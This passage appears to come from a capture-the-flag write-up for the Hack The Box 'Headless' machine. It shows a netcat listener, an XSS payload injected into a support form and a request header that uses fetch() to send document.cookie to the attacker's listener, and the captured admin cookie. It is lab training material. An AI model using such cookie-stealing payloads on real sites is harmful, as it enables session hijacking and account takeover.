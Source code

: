 ```
┌─[tobaka@parrot]─[~/ctf/htb/machines/headless]
└──╼ $nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.80] from (UNKNOWN) [10.10.14.80] 41568
GET / HTTP/1.1
Host: 10.10.14.80:9001
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/
DNT: 1
Connection: close

```

#### Cookie stealing

We can use the XSS vuln to steal admin's cookie and get access to the `/dashboard` endpoint.

```
POST /support HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/support
Content-Type: application/x-www-form-urlencoded
Content-Length: 190
Origin: http://10.10.11.8:5000
DNT: 1
Connection: close
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
Pwn: <img src="" onerror="fetch('http://10.10.14.80:9001/' + document.cookie);">

fname=tobaka&lname=tobaka&email=root%40tobaka.rocks&phone=3333333333&message=%3Cimg+src%3D%22%22+onerror%3D%22fetch%28%27http%3A%2F%2F10.10.14.80%3A9001%2F%27+%2B+document.cookie%29%3B%22%3E
```

After a while we receive a request with the admin's cookie.

```
┌─[✗]─[tobaka@parrot]─[~/ctf/htb/machines/headless]
└──╼ $nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.80] from (UNKNOWN) [10.10.11.8] 52376
GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1
Host: 10.10.14.80:9001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:5000/
Origin: http://localhost:5000
Connection: keep-alive
```
